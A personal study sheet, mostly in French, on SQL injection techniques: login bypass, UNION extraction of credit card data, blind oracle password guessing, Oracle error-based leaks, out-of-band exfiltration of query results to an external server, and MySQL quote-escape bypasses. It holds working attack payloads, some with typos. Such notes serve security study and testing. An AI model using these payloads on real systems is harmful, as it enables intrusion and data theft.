 # SQL Injection

## Standard Exploitation

* Ecrire `‘or ‘1’ = ‘1` transformant ainsi cette requête :

```sql
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’
```

en ça :

```sql
SELECT * FROM Users WHERE Username=’...’ OR ‘1’ = ‘1’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --` ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction l'a préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Etendre une requête SELECT avec un `UNION`. Transformant par exemple celle-ci :

```sql
SELECT Name, Phone, Address FROM Users WHERE Id=$id
```

en ça :

```sql
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types. Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Blind Exploitation \(Oracle\)

Quand le site ne nous renvoit pas directement le résultat de la query, mais qu'il réagit différement en fonction de si celle-ci a donné un résultat ou non, on peut l'utiliser comme Oracle.

Cela permet par exempe de deviner lettre par lettre un mot de passe.

Par exemple, prennons un site ayant 2 messages d'erreurs différents : "Unknown username" et "Invalid password" ayant cette requête pour le champ des usernames :

```sql
SELECT password FROM Admins WHERE username='$username'
```

Avec ce payload : `'OR password LIKE '%x' --` on peut reconstruire caractère par caractère le mdp. Il n'y a pas d'utilisateur vide, donc si on reçoit un "Unknown username", on sait que le mdp qu'on a proposé n'existe pas.

**Remarque** : C'est bien sûr un exemple très spécifique, car l'attaque sera différente à chaque fois. Mais l'idée générale reste la même, si le site réagit différement à une réponse binaire, on peut récupérer de l'info en la testant pas à pas.

**What to look for** :

* Difference in wording
* Difference in response status code
* Time-based difference

## Error Based Exploitation

Forcer des messages d’erreur donnant des informations. Par exemple, pour cette requête :

```sql
SELECT * FROM products WHERE id_product=$id_product
```

On peut lui demander de retourner un hostname en lui fournissant un user database name \(en oracle\) :

`http://www.example.com/product.php?id=10||UTL_INADDR. GET_HOST_NAME( (SELECT user FROM DUAL) )--`

Ce qui nous donnera cette erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

Cette technique diffère évidemment pour chaque database management system.

## Out of band exploitation

Cette technique consiste à utiliser des fonctions du DBMS \(Database management system\) pour envoyer les résultats à un serveur/autre, cela varie évidemment d’un DBMS à l’autre.

En oracle on pourrait par exemple faire ça :

`http://www.example.com/product.php?id=10||UTL_HTTP. request(‘testerserver.com:80’||(SELET user FROM DUAL)--`

Ce qui fera une requête GET vers testserver avec les résultats de la query. \(On peut setup le server avec netcat\).

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input `1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command. I think it was in one of the pentesterlab exercice.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateur `USER()` et `CURRENT_USER()` mais je suis pas sure des subtilités.
* Comments : `--` \(The space is important\) ou \`\#

### Fonctions utiles

* `LENGTH()`
* `SUBSTRING()`
* `BENCHMARK()`
* `SLEEP()`

